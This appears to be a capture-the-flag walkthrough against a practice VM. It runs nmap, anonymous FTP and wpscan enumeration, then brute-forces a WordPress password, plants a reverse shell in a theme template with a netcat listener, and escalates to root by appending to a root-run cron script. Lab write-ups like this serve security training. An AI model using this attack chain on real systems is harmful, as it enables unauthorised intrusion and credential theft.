




Nmap scan report for 192.168.56.112
Host is up (0.00011s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
crazyeights@es-base:~$ nmap -A -p- 192.168.56.112
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 15:16 EDT
Nmap scan report for 192.168.56.112
Host is up (0.000070s latency).
Not shown: 65532 closed ports
PORT
STATE SERVICE VERSION
21 /tcp open ftp vsftpd 2.3.5
| ftp -anon: Anonymous FTP login allowed (FTP code 230)
| _drwxr -xr-x
2 65534
65534
4096 Mar 03 2018 public
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol
[SNIP]
80 /tcp open http Apache httpd 2.2.22 ((Ubuntu))
| http -robots.txt: 1 disallowed entry
| _ /backup_wordpress
| _http -server-header: Apache/2.2.22 (Ubuntu)
| _http -title: Site doesn't have a title (text/html).
Service Info : OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
crazyeights@es-base:~$ ftp 192.168.56.112
Connected to 192.168.56.112.220 (vsFTPd 2.3.5)
Name (192.168.56.112:crazyeights): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 65534
65534
4096 Mar 03 2018 public
226 Directory send OK.
ftp> cd public
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0
0
31 Mar 03 2018 users.txt.bk
226 Directory send OK.
ftp> get users.txt.bk
local: users.txt.bk remote: users.txt.bk
[SNIP]
abatchy
john
mai
anne
doomguy
crazyeights @es - base: ~$ dirb http: //192.168.56.112
GENERATED WORDS: 4612
---- Scanning URL: http: //192.168.56.112/ ----
+ http: //192.168.56.112/cgi-bin/ (CODE:403|SIZE:290)
+ http: //192.168.56.112/index (CODE:200|SIZE:177)
+ http: //192.168.56.112/index.html (CODE:200|SIZE:177)
+ http: //192.168.56.112/robots (CODE:200|SIZE:43)
+ http: //192.168.56.112/robots.txt (CODE:200|SIZE:43)
+ http: //192.168.56.112/server-status (CODE:403|SIZE:295)
robots. txt:
User- agent: *
Disallow: /backup_wordpress
crazyeights@es-base:~$ wpscan --url http://192.168.56.112/backup_wordpress/
-e u
[i] User(s) Identified:
[+] john
| Found By: Author Posts - Display Name (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] admin
| Found By: Author Posts - Display Name (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
crazyeights@es- base :~$ wpscan --url http://192.168.56.112/backup_wordpress/
--passwords lists/rockyou-40.txt --usernames john,admin
[ + ] Performing password attack on Xmlrpc against 2 user/s
[ SUCCESS ] - john / enigma
Log into wordpress with credentials john:enigma
Go to Appearance > Editor > 404.php, and replace the template with a rever shell.
Run nc -lvp 1234, then paste the reverse shell and save:
If the listener does not connect immediately when the template is saved fo to wp-content/themes/twentysixteen/404.php
This might work, I didn’t test it:
$ lsb_release -a
No LSB modules are available.
Distributor ID:
Ubuntu
Description:
Ubuntu 12.04.4 LTS
Release:
12.04
Codename:
precise
(There is probably an exploit for this too)
(Sometimes there are credentials)
(Path of least resistance)
$ cat crontab
[SNIP]
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
[SNIP]
#$ * * * * root /usr/local/bin/cleanup
Getting the root flag in an extremely lazy way: Modifying cleanup script:
$ echo cp /root/flag.txt /home/flag.txt >> cleanup
$ cat cleanup
#!/bin/sh
[SNIP]
cp /root/flag.txt /home/flag.txt
Checking the /home directory for the flag:
$ ls -lai /home
total 32
393219 drwxr-xr-x 7 root root 4096 Sep 26 13:35 .
2 drwxr-xr-x 23 root root 4096 Mar 3 2018 ..
420171 -rw-r--r-- 1 root root 248 Sep 26 13:36 flag.txt
[SNIP]
$ cat /home/flag.txt
Congratulations!
If you can read this, that means you were able to obtain root permissions
on this VM.
You should be proud!
There are multiple ways to gain access remotely, as well as for privilege
escalation.Did you find them all ?
@abatchy17
FIN (ish).